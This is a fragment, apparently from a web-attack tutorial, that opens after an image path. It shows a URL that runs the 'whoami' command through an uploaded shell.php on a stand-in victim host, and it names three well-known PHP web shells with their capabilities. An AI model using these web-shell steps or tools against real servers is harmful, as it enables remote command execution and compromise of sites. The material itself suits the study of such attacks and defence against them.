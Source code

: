 ### After Creating of Shell.php file, Try this : ###
http://victim.com/uploads/shell.php?cmd=whoami
#### Existing Web Shells Available Online ###
''' p0wny-shell ''' - A minimalistic single-file PHP web shell that allows remote command execution.
''' b374k shell ''' - A more feature-rich PHP web shell with file management and command execution, among other functionalities.
''' c99 shell ''' - A well-known and robust PHP web shell with extensive functionality.